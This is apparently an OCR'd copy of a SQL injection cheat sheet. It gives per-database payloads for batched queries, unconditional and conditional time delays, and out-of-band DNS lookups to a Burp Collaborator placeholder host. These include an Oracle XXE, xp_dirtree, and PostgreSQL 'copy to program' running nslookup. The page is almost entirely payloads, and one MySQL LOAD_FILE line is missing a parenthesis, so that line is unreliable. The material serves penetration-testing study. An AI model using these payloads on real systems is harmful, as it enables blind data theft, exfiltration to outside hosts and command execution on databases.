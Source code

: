 | Distribution | Commande |
| --- | --- | 
| Oracle | Does not support batched queries. |
| Microsoft | ```QUERY-1-HERE; QUERY-2-HERE``` |
| PostgreSQL | ```QUERY-1-HERE; QUERY-2-HERE``` |
| MySQL | ```QUERY-1-HERE; QUERY-2-HERE``` |
**Note:** With MySQL, batched queries typically cannot be used for  SQL injection. However, this is occasionally possible if the target  application uses certain PHP or Python APIs to communicate with a MySQL  database.             
  
## Time delays
You can cause a time delay in the database when the query is  processed. The following will cause an unconditional time delay of 10  seconds.         

| Distribution | Commande |
| --- | --- | 
| Oracle | ```dbms_pipe.receive_message(('a'),10)``` |
| Microsoft | ```WAITFOR DELAY '0:0:10'``` |
| PostgreSQL | ```SELECT pg_sleep(10)``` |
| MySQL | ```SELECT SLEEP(10)``` |

        
## Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.         


| Distribution | Commande |
| --- | --- | 
| Oracle | <code>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual</code> |
| Microsoft | ```IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'``` |
| PostgreSQL | ```SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END``` |
| MySQL | ```SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')``` |

        
## DNS lookup
 You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator  to generate a unique Burp Collaborator subdomain that you will use in  your attack, and then poll the Collaborator server to confirm that a DNS  lookup occurred.         

| Distribution | Commande |
| --- | --- | 
| Oracle | The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:<br>```SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual```<br>The following technique works on fully patched Oracle installations, but requires elevated privileges:<br>```SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')``` |
| Microsoft | ```exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'``` |
| PostgreSQL | ```copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'``` |
| MySQL | The following techniques work on Windows only:<br>```LOAD_FILE'\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')```<br>```SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'``` |
        